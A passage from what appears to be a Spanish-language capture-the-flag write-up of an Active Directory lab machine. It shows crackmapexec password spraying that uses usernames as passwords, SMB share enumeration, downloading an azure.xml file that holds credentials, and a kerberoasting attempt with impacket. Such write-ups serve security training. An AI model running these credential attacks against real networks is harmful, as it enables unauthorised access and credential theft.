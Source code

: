 ![Pasted image 20240828222608](https://github.com/user-attachments/assets/5433e17c-9049-4f1a-aaef-2f3e460f1c74)


>Ahora, al tratar de realizar un ataque ASREPRoast no hemos encontrado ningún usuario vulnerable:

![Pasted image 20240828223140](https://github.com/user-attachments/assets/5131dfd2-0d79-42fd-a25b-c7bd15968e13)


>Ahora, vamos a realizar un proceso de fuerza bruta mediante **crackmapexec** para comprobar si los usuarios tienen de contraseña sus propios usuarios:

```bash
crackmapexec smb IP 2>/dev/null -u users -p users
```

![Pasted image 20240828223347](https://github.com/user-attachments/assets/04f23309-581e-431b-8893-2630a4ae00b9)

>Ahora vamos a emplear las credenciales de ese usuario para listar shares a los que tenga acceso:

```bash
crackmapexec smb IP 2>/dev/null -u SABatchJobs -p SABatchJobs --shares
```

![Pasted image 20240828223521](https://github.com/user-attachments/assets/c260f9b7-803a-4253-bfe8-6bbc34f647a3)

>Ahora hemos encontrado un archivo interesante: "azure.xml", por lo que nos lo traeremos a la máquina atacante para leerlo:

```bash
smbclient \\\\IP\\users$ -U SABatchJobs
```

```smb
get azure.xml
```

![Pasted image 20240828224035](https://github.com/user-attachments/assets/1cf5796a-56e4-451b-b57d-144cc7d4c4e8)

>Al leer el contenido del archivo, podemos ver las credenciales de algún usuario en azure y posiblemente en el sistema:

```bash
cat azure.xml
```

![Pasted image 20240828224136](https://github.com/user-attachments/assets/f602d523-15ab-4e2a-9153-701b5b599e83)


# Explotación

>También podemos ver si algún usuario es kerberoasteable al tener acceso a un usuario, pero ninguno lo es:

```bash
impacket-GetUserSPNs domain/user:password -request
```

![Pasted image 20240828224542](https://github.com/user-attachments/assets/c94145ac-8f07-4ac6-8eea-750f50b79c01)
